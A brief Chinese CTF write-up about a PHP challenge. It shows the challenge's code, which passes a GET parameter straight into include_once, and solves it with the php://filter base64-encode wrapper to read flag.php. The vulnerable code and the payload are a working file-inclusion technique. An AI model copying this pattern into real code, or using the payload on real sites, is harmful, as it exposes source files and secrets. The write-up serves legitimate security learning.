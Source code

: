 #php #PHP 伪协议

传入一个 file 试试
?file=1(值随便)

```php
<?php
	ini_set("allow_url_include","on");
	header("Content-type: text/html; charset=utf-8");
	error_reporting(0);
	$file=$_GET['file'];
	if(isset($file)){    
		show_source(__FILE__);       
		echo 'flag 在flag.php中';
	}else{       
		echo "传入一个file试试";   }
	echo "</br>";
	echo "</br>";
	echo "</br>";
	echo "</br>";
	echo "</br>";
	include_once($file);
?>
```

发现有 include_once 函数；  
include_once()：在脚本执行期间包含并运行指定文件。该函数和 include 函数类似，两者唯一的区别是 使用该函数的时候，php 会加检查指定文件是否已经被包含过，如果是，则不会再被包含。

于是利用伪协议构造，

```url
php://filter/convert.base64-encode/resource=flag.php
```

然后解密 base64
